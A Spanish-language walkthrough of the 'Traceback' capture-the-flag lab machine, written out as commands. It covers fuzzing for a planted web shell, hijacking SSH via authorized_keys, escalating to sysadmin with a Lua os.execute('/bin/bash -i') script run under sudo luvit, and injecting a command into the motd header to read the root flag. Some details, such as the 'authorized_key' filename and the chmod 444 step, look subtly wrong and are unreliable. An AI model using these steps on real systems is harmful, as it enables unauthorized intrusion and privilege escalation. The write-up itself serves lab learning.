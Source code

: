 ## Traceback
## Herramientas a Utilizar
- nmap
- wfuzz
- ssh-keygen
- chmod

```
nmap -n -A -o scan.tracerback.txt 10.10.10.181
```

Iremo a la siguiente web:
```
https://github.com/TheBinitGhimire/Web-Shells
```

Debemos descargaremos todo los nombre de shell de este site y lo pondremos en txt.

El cual llamaremos: `rsearch.txt`

Luego buscaremos coincidencia de las misma con el siguiente comando.
```
wfuzz -c -z file,'rsearch.txt' http://10.10.10.181/FUZZ
```
Encontraremos 

000000015: 200 58 L 100 W 1261 Ch `"smevk.php" `

Debemos ejecutar ahora
```
http://10.10.10.181/smevk.php
```

En este panel debemos escribir `"Change Dir"` 
nos movemos a 
```
/home/.ssh/
```
Aqui debemos crear nuestra propia llave de ssh `publica` y `privada` para conectarno

**Como generamos nuestra Llaves.**
En nuestra maquina iremos a `home` de nuestro usuario y accederemos al directorio `.ssh`

Desde aqui ejecutaremos:
```
ssh-keygen <enter>
```
[+] Enter file in which to save the key `(/home/ylo/.ssh/id_rsa):` *presionadmos enter*
Enter passphrase `(empty for no passphrase):` *Digitamos nuestra clave*
Enter same passphrase again: *Confirmamos la clave digitada*


Este proceso nos generara dos archivo:
`id_rsa` = *Llave privada*
`id_rsa.pub` = *Llave publica*

Copiamos el contenido de nuestra llave publica `id_rsa.pub` y Creamos un archivo llamado `authorized_key`.
```
cp id_rsa.pub authorized_key
```

Ahora volver al portal
```
http://10.10.10.181/smevk.php
```
Nos movemos al diretorio
```
/home/webadmin/.ssh/ 
```
Eliminaremos el archivo `authorized_key` 
Luego subimos nuestro archivo `authorized_key`

>Volvemos a nuestra maquina desde donde creamos nuestra llaves publica y privada
y al archivo `id_rsa` le cambiar el permiso para poder utilizarlo.

```
chmod 444 id_rsa
```

Nos conectaremos a la maquina de la siguiente manera:

```
ssh -i id_rsa webadmin@10.10.10.181
```
Si todo va bien solo debemos poner la clave con la cual generamos la llaves.

>Una vez dentro podemos ver un archivo llamado `trace.lua` con el cual posiblemente podriamo escaleremos privilegio.
```
ls -la trace.lua
```

Continuando la enumeracion si ejecutamos 
```
ps aux
````
Notaremos que un proceso que esta ejecutando lo siguiente: `sudo -u sysadmin /home/sysadmin/luvit` entre otra cosas, pero solo tomaremos esta parte.

Ahora tenemos lo siguiente:
`sudo -u sysadmin /home/sysadmin/luvit`
El contenido del archivo trace.lua
`os.execute("/bin/bash -i")`

Por lo que si ejecutamos:
```
sudo -u sysadmin /home/sysadmin/luvit trace.lua 
whoami
sysadmin 
```
Y con esto tenemos ahora tenemos permiso de `sysadmin`

```
cd /home/sysadmin
cat user.txt
```

Ahora para conseguir la Flag del root y despues de buscar y buscar y buscar 😢  iremos a:

```
cd /etc/update-motd.d/
cat 00-header
```
Este archivo nos muestra una forma muy peculiar de ejecutar algo al momento de iniciar session ssh
```
echo "cat /root/root.txt" >> 00-header
```

Inmediatamente abriremos otra Terminal para conectarnos otra vez via ssh.
```
ssh -i id_rsa webadmin@10.10.10.181
```

Al conectarno en el Welcome del ssh debe aparecer la flag del root. 🤷‍♂️
